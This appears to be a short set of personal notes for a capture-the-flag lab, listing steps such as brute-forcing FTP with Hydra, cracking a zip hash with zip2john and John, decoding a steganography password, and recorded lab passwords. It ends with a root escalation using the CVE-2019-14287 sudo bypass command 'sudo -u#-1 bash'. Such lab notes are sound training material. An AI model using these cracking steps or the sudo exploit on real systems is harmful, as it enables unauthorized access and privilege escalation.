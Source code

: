 ## Things to learn
- Learn FTP

## Enumeration

## User agent switcher 
Can spoof with curl

## Brute force FTP with Hydra
FTP password: crystal

## File stuff
`file`
`exiftool`
`binwalk`
`7z e file.zip`

## Brute force zip file
`zip2john file.zip > hash.txt`
`john hash.txt`
Zip Password: alien
Steg encrypted: QXJlYTUx

## Brute force steg | USED WRITEUP
encrypted password, use cyberchef
Steg password: Area51
Agent J password: hackerrules!

## privesc | USED WRITEUP
`sudo -l` shows we can run bash as any user except root
use this [cve](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
`sudo -u#-1 bash`
